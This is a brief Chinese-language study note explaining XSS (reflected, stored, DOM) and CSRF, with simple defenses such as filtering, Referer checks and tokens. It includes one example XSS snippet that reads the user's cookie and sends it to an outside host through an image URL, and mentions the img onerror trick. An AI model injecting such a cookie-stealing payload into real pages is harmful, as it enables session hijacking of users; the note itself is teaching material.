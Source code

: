 # XSS && CSRF

## 1. XSS

XSS（Cross Site Scripting）跨站脚本攻击。

看起来很深奥，但是这是原理和简单，攻击者将script标签插入用户的浏览的web页面，csript代码会执行，这样可以获取用户的敏感信息。

分类：

反射性
存储型
DOM型：在url后面添加script标签内容
反射性： 比如有个网页需要，填写一个信息并返回给用户，当我们在输入框内容写成下面内容，但返回给用户就执行这个语句了。

```js
var cook = window.cookie
var img = `<img src="www.syte.com/get.php?cook=${cook}"` />
document.write(img)
```

注入这个片段后执行时获取用户 cookie 并把 cookie 发送到 `www.syte.com` 域名中。

在后端过滤这个script来解决这个问题，还有一个标签当img标签加载失败（img有一个onerror方法，图片加载失败时触发这个方法）也可以发送请求。

## 2. CSRF

CSRF（Cross Site Request Forgy）跨站请求伪造，是一种对网站的恶意利用。

举个例子，当你在一个网站上登陆成功以后，攻击者在你登陆的网站上生成一个点击的按钮或连接，比如点击抽奖等。当你点击以后，以你的名义（你登陆后发送请求时，请求会带上cookie来确认你身份）向服务器发送而已请求，比如修改你的账号密码。

csrf

要完成一次CSRF攻击，受害者必须依次完成两个步骤：

1.登录受信任网站A，并在本地生成Cookie。

2.在不登出A的情况下，访问危险网站B。

如何让防范？

验证 HTTP Referer 字段
在请求地址中添加 token 并验证

<comment-comment/> 

